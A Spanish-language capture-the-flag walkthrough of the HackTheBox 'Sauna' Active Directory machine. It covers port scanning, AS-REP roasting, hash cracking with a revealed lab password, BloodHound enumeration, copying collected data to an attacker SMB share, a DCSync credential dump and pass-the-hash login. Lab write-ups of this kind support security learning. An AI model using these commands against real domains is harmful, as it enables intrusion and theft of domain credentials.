

# Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESp Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

Vamos a intentar crackear con john el hash:

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.